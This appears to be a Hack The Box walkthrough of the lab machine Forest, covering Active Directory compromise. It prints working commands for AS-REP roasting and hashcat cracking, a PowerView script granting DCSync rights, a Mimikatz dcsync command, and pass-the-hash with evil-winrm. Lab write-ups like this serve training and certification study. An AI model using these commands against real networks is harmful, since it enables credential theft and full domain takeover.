 # Forest HTB Writeup
Forest is an easy machine on the HacktheBox platform, primarily specializing in Active Directory exploitation. This machine was on TJNull's OSCP list and helped me pass the OSCP exam.

### Enumeration
We start off with a nmap scan, using default scripts (-sC), and the enumerating versions flags (-sV).
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.45 seconds
                                                                                                                                                                                             
shellph1sh@kali:~/Htb/forest$ sudo nmap -p 53,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sC -sV -oA nmap/forest 10.10.10.161
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
Nmap scan report for 10.10.10.161
Host is up (0.061s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-12 14:36:32Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-12-12T06:36:42-08:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h46m39s, deviation: 4h37m09s, median: 6m37s
| smb2-time: 
|   date: 2023-12-12T14:36:39
|_  start_date: 2023-12-11T01:44:33
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.32 seconds
```

<br />

By this nmap scan, we can see that that this machine is an Active Directory Domain Controller. We can attempt to enumerate Domain user accounts if SMB anonymous bindings are enabled. So we run `enum4linux`.

<br />

![Untitled-1](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/10d0f494-f7f7-4a9b-9a27-074e5fea542a)

<br />

We aquire quite a few users from `enum4linux`, which we can use to leverage an attack.

<br />

### Exploitation
We can build a wordlist of Domain usernames to test if accounts are ASREP-Roastable. An ASREPRoasting attack leverages an accounts lack of Kerberos pre-authentication required, giving us the users hash.

We can build the text file users.txt like so:
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
zeus
```

<br />

and utilize it in an ASREPRoasting attack with `impacket-GetNPUsers`:

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e427e5ec-d449-4685-b33a-39834459c515)

<br />

We get a hash for the user svc-alfresco! The naming convention `svc` indicates a service account, meaning potentially more privilege being given to this account.

We can then attempt to crack the hash using hashcat, with the command: `hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule`:

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/89e74388-986f-48b6-9e95-cca47192b952)

<br />

Boom! We cracked the service account hash!
Great, now due to the WinRM service running on port 5985 that we enumerated earlier with nmap, we could potentially gain command execution if the service user is in the local group “Remote Management Users”.

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/78268aa2-ff39-47b7-ae5a-9321ccefaea0)

<br />

We get command execution!

<br />

### Privilege Escalation

As a Domain user, or a service account, I like to execute BloodHound on the target the enumerate potential domain vulnerabilities like Kerberoasting, or permission misconfiguration.


We find that the Domain Group `Account Operators` as `Generic All` access on `zeus`, and `svc-alfresco` is a part of the `Privileged Accounts` Domain Group, and the `Privileged Accounts` Domain Group is a member of the `Account Operators` Group. Because of this, our current user has full control over the user `zeus`. We can change their password, set them apart from the `Remote Management Users` to get RCE, then give them DCSync rights. 

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/401c1c39-a67a-4028-bbe2-cb3c0fbefdad)

<br />

```
net localgroup "Remote Management Users" htb.local\zeus /add
```
<br />

Utilize PowerView to give Zeus DCSync rights

<br />

```
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\zeus', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity zeus -Rights DCSync
```

<br />

Then we can use Evil-WinRM once more to gain access to the `zeus` account

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/740c03d3-a1a9-4833-9b29-96df83f1c638)

<br />

We can then use Mimikatz to preform the DCSync procedure as `zeus`.

```
Mimikatz.exe "lsadump::dcsync /domain:htb.local /user:Administrator" "exit"
```
<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/ac9d1a04-d612-4b2b-ac6a-8a69303abce2)

<br />

And we've gathered the NTLM hash of the Administrator, we can use this to Pass the Hash (PtH) to the Domain Administrator with evil-winrm.

```
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```


